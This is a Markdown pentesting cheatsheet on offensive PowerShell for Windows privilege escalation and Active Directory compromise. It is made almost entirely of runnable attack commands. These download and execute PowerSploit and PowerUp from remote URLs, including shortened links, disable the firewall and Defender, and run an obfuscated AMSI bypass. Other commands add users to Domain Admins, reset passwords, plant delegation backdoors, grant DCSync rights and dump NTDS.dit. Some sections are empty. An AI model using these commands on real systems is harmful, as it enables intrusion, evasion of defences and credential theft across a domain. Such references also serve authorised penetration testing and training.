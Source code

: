 ```yaml
---
layout: post
title: Offensive Powershell - Part 2 Privilege Escalation
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2021-11-18
permalink: /:categories/:title/
---
```

<!-- vscode-markdown-toc -->
* [PRE-REQUISITE: Installing PowerUp and PowerSploit](#PRE-REQUISITE:InstallingPowerUpandPowerSploit)
* [PRE-REQUISITE: SECURITY TAMPRING](#PRE-REQUISITE:SECURITYTAMPRING)
* [LATERAL MOVEMENT](#LATERALMOVEMENT)
* [PRIVESC](#PRIVESC)
* [TOKEN IMPERSONATION](#TOKENIMPERSONATION)
* [ADD MEMBER](#ADDMEMBER)
* [FORCE PASSWORD CHANGE](#FORCEPASSWORDCHANGE)
* [KERBEROASTING](#KERBEROASTING)
* [ABUSING DELEGATION](#ABUSINGDELEGATION)
* [DUMP NTDS.DIT](#DUMPNTDS.DIT)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='PRE-REQUISITE:InstallingPowerUpandPowerSploit'></a>PRE-REQUISITE: Installing PowerUp and PowerSploit

- [PowerUp CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf)
- [PowerSploit CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerSploit.pdf)

```powershell
# ActiveDirectory Module
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

# PowerUp Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/1PdjSHk'); . .\PowerUp.ps1

# PowerSploit Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/28RwLgo'); . .\PowerSploit.ps1
```

## <a name='PRE-REQUISITE:SECURITYTAMPRING'></a>PRE-REQUISITE: SECURITY TAMPRING
```powershell
# windows firewall showing / disabling config 
netsh advfirewall set allprofiles state off
netsh advfirewall show allprofiles

# powershell execution protection bypass
powershell -ep bypass

# powershell fullLanguage / Constrained language mode
# https://seyptoo.github.io/clm-applocker/
$Env:__PSLockdownPolicy
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy /t REG_SZ /d ConstrainedLanguage /f
/v fDenyTSConnections /t REG_DWORD /d 1 /f
$ExecutionContext.SessionState.LanguageMode
$ExecutionContext.SessionState.LanguageMode ConstrainedLanguage

# powershell remoting enable / verify (Needs Admin Access)
Enable-PSRemoting

# RDP : enable / disable / check access
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections

# WMI remoting as user authenticated on the Da / execution with DC privileges
Set-RemoteWMI -UserName johndoe -ComputerName dcorp-dc.dollarcorp.moneycorp.local -namespace 'root\cimv2' -Verbose

# Windows Defender disabling features
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
Set-MpPreference -DisableIOAVProtection $true

# Windows Defender AMSI Bypass  
# https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## <a name='LATERALMOVEMENT'></a>LATERAL MOVEMENT
```powershell
Invoke-DCOM
Invoke-SMBExec
Invoke-PsExec
Invoke-Command
mstsc.exe
```

## <a name='PRIVESC'></a>PRIVESC
```
Get-Hotfix
```

## <a name='TOKENIMPERSONATION'></a>TOKEN IMPERSONATION

## <a name='ADDMEMBER'></a>ADD MEMBER
```
# OPTION 1
net group "Domain admins" dagreat /add /domain

# OPTION 2
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<Domain>\dagreat',$SecPassword)
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'jomivz' -Credential $Cred

# VERIFICATION
Get-DomainGroupMember -Identity 'Domain Admins'
```


## <a name='FORCEPASSWORDCHANGE'></a>FORCE PASSWORD CHANGE
```
# OPTION 1
net user dagreat Password123! /domain

# OPTION 2
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<Domain>\dagreat',$SecPassword)
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity dagreat -AccountPassword $UserPassword -Credential $Cred
```

## <a name='KERBEROASTING'></a>KERBEROASTING
```

```
## <a name='ABUSINGDELEGATION'></a>ABUSING DELEGATION
```
# configure the CD backdoor with proto transition
Get-ADComputer -Identity <ServiceA> | Set-ADAccountControl -TrustedToAuthForDelegation $true
Set-ADComputer -Identity DC01 -Add @{'msDS-AllowedDelegationTo'=@('CIFS/DC01.corp')}

# configure a RBCD backdoor
# ServiceB has 'msDS-AllowedToActOnBehalfOfOtherIdentity' set, pointing to ServiceA
Set-ADComputer <ServiceB> -PrincipalAllowedToDelegateToAccount <ServiceA>

# trigger the backdoor
[Reflection::Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
$idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('<DAgreat>')
$idToImpersonate.Impersonate()
```

# Set A DCSYNC
```
Add-ObjectAcl -TargetDistinguishedName "dc=<DC01>,dc=local" -PrincipalSamAccountName <sogreatW -Rights DCSync -Verbose
```

## <a name='DUMPNTDS.DIT'></a>DUMP NTDS.DIT
```
ntdsutil.exe "activate instance ntds" "ifm" "Create Full C:\Temp\ntds.dmp" quit quit
```
